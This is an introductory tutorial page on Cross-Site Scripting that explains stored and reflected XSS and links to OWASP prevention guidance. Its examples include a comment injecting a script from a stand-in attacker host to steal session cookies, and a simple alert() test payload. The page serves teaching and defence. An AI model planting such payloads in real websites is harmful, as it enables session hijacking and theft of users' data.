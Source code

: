 ```yaml
---
date: 2018-08-10
title: XSS
categories:
  - security
description:
type: Document
set: security
set_order: 2
---
```


## General information

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign
and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the
form of a browser side script, to a different end user. A successful cross site scripting attack can have devastating consequences for an online business’s reputation and its relationship with its clients.

Depending on the severity of the attack, user accounts may be compromised, Trojan horse programs activated and page content modified, misleading users into willingly surrendering their private data. Finally, session cookies could be revealed, enabling a perpetrator to impersonate valid users and abuse their private accounts.

## XSS types

There are 2 types of XSS vulnerabilities:

* Stored
* Reflected

Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user’s browser. The script is embedded into a link, and is only activated once that link is clicked on.

## Basic examples

While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site’s comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.

The attacker adds the following comment: Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.

From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.

Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.

Now let's consider reflected XSS attack example. Imagine that you have input field which allows you to perform search on the site. You input something like `<script>alert(1)</script>foo` into it and hit enter. On a vulnerable site, that entire parameter will get injected into the error page that pops up, the javascript will execute, and you'll get a popup in addition to the "Resource foo is not found" message. If you can induce somebody else navigate to the same link that you crafted, you can execute arbitrary javascript in their session.

## What's next?

Here are some useful links to expand your knowledge:
* Extended info about how to prevent XSS is listed on [OWASP article](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet);
* General [article](https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html) about XSS attacks with explanation of some mitigation techniques for this vulnerability;
* More practical example listed [here](https://www.thegeekstuff.com/2012/02/xss-attack-examples/?utm_source=tuicool);
* [Free online source](https://alf.nu/alert1) to practise your skills. 
